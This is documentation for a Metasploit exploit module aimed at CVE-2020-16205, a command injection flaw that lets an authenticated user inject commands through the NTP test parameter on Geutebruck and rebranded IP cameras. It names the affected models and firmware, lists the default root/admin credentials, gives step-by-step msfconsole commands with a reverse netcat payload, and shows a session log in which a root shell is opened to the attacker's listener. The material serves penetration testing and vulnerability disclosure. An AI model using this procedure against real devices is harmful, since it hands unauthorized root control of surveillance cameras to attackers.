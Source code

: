 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.25,
firmware version 1.12.13.2 or firmware version 1.12.14.5:
* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:
  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.14.5.

### Description

This module exploits an authenticated OS command injection vulnerability (CVE-2020-16205) within the
`server` GET parameter of /uapi-cgi/admin/testaction.cgi when the `type` parameter is set to `ntp`.
This issue occurs due to a lack of validation on the `server` parameter, which allows an attacker to
inject a new line character, followed by the command they wish to execute, at which point the server will
then interpret the new string as a separate command to be executed. Successful exploitation will result in
remote code execution as the `root` user.

Users can find additional details of this vulnerability on the advisory page at https://us-cert.cisa.gov/ics/advisories/icsa-20-219-03.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch msfconsole
  3. Do: `use exploit/linux/http/geutebruck_testaction_exec`
  4. Do: `set httpusername <camera_username>`
  5. Do: `set httppassword <camera_password>`
  6. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `set payload cmd/unix/reverse_netcat_gaping`
  7. Do: `check` to be sure the target is vulnerable
  8. Do: `exploit`
  9. You should get a shell

## Options

The default credentials to log on the web interface are root/admin.

 ### HTTPUSERNAME
 A username used to authenticate on the admin page. **Default: root**

 ### HTTPPASSWORD
The password of the username used to authenticate on the admin page. **Default: admin**

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.14.5.
```
msf > use exploit/linux/http/geutebruck_testaction_exec
msf exploit(linux/http/geutebruck_testaction_exec) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf exploit(linux/http/geutebruck_testaction_exec) > set httpusername root
httpusername => root
msf exploit(linux/http/geutebruck_testaction_exec) > set httppassword admin
httppassword => admin
msf exploit(linux/http/geutebruck_testaction_exec) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf exploit(linux/http/geutebruck_testaction_exec) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf exploit(linux/http/geutebruck_testaction_exec) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2020-04-02 18:26:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-ge52275bd #1 PREEMPT Thu Jul 25 20:25:39 KST 2019 armv5tejl GNU/Linux
```
